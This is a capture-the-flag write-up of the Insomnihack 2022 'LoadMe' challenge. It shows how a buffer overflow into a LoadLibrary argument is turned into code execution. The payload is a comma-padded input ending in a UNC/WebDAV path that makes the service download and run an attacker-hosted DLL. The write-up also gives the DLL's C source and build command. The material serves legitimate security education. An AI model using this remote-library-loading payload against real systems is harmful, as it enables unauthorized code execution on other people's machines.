 # LoadMe

> We have developed a super soft that gives meal ideas based on ingredients.
> The service is still in beta but the interface should look like this:  
>  
> nc loadme.insomnihack.ch 1337

Even though it's supposed to be a pwn challenge we get no binary to reverse
engineer.

```  
$ nc loadme.insomnihack.ch 1337  
██╗███╗   ██╗███████╗ ██████╗ ███╗   ███╗███╗   ██╗██╗    ██╗  ██╗ █████╗
██████╗██╗  ██╗  
██║████╗  ██║██╔════╝██╔═══██╗████╗ ████║████╗  ██║██║    ██║
██║██╔══██╗██╔════╝██║ ██╔╝  
██║██╔██╗ ██║███████╗██║   ██║██╔████╔██║██╔██╗ ██║██║    ███████║███████║██║
█████╔╝  
██║██║╚██╗██║╚════██║██║   ██║██║╚██╔╝██║██║╚██╗██║██║    ██╔══██║██╔══██║██║
██╔═██╗  
██║██║ ╚████║███████║╚██████╔╝██║ ╚═╝ ██║██║ ╚████║██║    ██║  ██║██║
██║╚██████╗██║  ██╗  
╚═╝╚═╝  ╚═══╝╚══════╝ ╚═════╝ ╚═╝     ╚═╝╚═╝  ╚═══╝╚═╝    ╚═╝  ╚═╝╚═╝  ╚═╝
╚═════╝╚═╝  ╚═╝

Welcome to the cookery recipe Generator:  
Please give a comma-separated list of ingredients:  
```

The service asks for a list, prints it back and terminates:

```  
< Please give a comma-separated list of ingredients:  
> cement,sand,gravel,water  
< cement,sand,gravel,water  
< Sorry, the kitchen is currently closed  
```

The obvious next step is to try a payload like this one:

```  
< Please give a comma-separated list of ingredients:  
> ,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,  
```

And this time we get a nice error message along with a stack trace:

```  
WARNING Unable to load the dll ,,,,,,,,,,,  
CookeryRecipe.exe caused an Access Violation at location 000000005ED5D491 in
module wow64.dll DEP violation at location 0000000000000000.

Registers:  
eax=00000000 ebx=000b9020 ecx=2b3a867b edx=00000000 esi=000b90e0 edi=013ff944  
eip=00000000 esp=013ff86c ebp=013ff968 iopl=0         nv up ei pl nz na pe nc  
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010202

AddrPC   Params  
00000000 00000000 000BA627 00000001  
000B1750 00000018 017110A4 017110CC  CookeryRecipe.exe!main
[/work/src/CookeryRecipe.c @ 65]  
000B1396 00000000 00000000 000B14C0  CookeryRecipe.exe!__tmainCRTStartup
[/usr/src/mxe/tmp-
gcc-i686-w64-mingw32.static/gcc-11.2.0.build_/mingw-w64-v9.0.0/mingw-w64-crt/crt/crtexe.c
@ 321]  
73FB62C4 011A7000 2A057C0F 00000000  kernel32.dll!0x162c4  
772B1B69 FFFFFFFF 772D33EE 00000000  ntdll.dll!0x61b69  
772B1B34 000B14C0 011A7000 00000000  ntdll.dll!0x61b34  
```

The warning is especially interesting, because it suggests we can try to make
it load a library with a specified name,  
which we most likely overwrote providing an input of more than 64 characters.

We've tried to load a library that should load on every Windows system (for
example `user32.dll`) and although the app  
still crashes with a stracktrace, the warning about not being able to load the
dll doesn't show up anymore.

Then we remembered a nifty trick when exploiting Windows challenges at CTFs
(especially at onsite events): if we can  
somehow invoke a `LoadLibrary` with our own library hosted on a network share,
we immediately gain code execution that's  
very convenient to use (after all, that's just C code written by us).

Just like before with `user32.dll` we've tried providing a UNC path to a
publicly hosted library:

```  
< Please give a comma-separated list of ingredients:  
>
> ,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,\\live.sysinternals.com\tools\autorunsc.exe  
<
,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,\\live.sysinternals.com\tools\autorunsc.exe  
< CookeryRecipe.exe caused an Access Violation at location 000000005ED5D491 in
module wow64.dll DEP violation at location 0000000000000000.  
```

And again, there is no warning about not being able to load the library and,
what confirms our suspicions that it is  
indeed an invocation of `LoadLibary` with an argument provided by us, a few
seconds delay (most likely to download the  
binary) before the program continued.

We decided it's time to write a library of our own:  
```c  
#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)  
{  
   system("dir");  
   ExitProcess(1);  
}  
```

Which then can be cross-compiled to a 32-bit Windows library on Linux with
mingw:  
```  
$ i686-w64-mingw32-g++ kodzik.c -s -shared -o kodzik.dll  
```

Last thing we needed to do was to host a public SMB share and lost an hour
trying to do so. It turns out that many ISPs  
and hosting providers just outright block ports 139 and 445. And rightly so,
because the world had enough problems with  
vulnerabilities in popular SMB implementations (including Wannacry with its
SMB `EternalBlue` exploit). But while looking  
at `tcpdump` output trying to debug SMB connectivity we also saw a connection
attempt to the tcp/80 port. Quick Google  
search revealed that Windows might also try to use WebDAV while resolving UNC
paths and that we can even specify  
a custom port in the path itself: `\\1.2.3.4@8080\path\to\a\file.dll`.  
Knowing that we've set up a WebDAV share using Apache and tried to load our
library with the task service:

```  
< Please give a comma-separated list of ingredients:  
>
> ,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,\\1.2.3.4@8080\data\kodzik.dll  
<
,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,\\1.2.3.4@8080\data\kodzik.dll  
<  Volume in drive C is OS  
<  Volume Serial Number is 4A1B-C069  
<  
<  Directory of C:\Users\Public\loadme  
<  
< 01/28/2022  05:08 PM    <DIR>          .  
< 01/28/2022  05:08 PM    <DIR>          ..  
< 01/28/2022  04:19 PM    <DIR>          bin  
< 11/24/2021  04:20 PM               186 guardian.bat  
< 01/28/2022  05:90 PM             3,290 guardian.ps1  
...  
```

Only thing left was to find a file with the flag and print it out:  
`INS{S0M3T1M3S-PWN-DOES-NOT-REQUIRE-REGISTERS}`.

More like a misc than a pwn if you ask us, but...

Original writeup
(https://github.com/p4-team/ctf/tree/master/2022-01-29-insomnihack/loadme).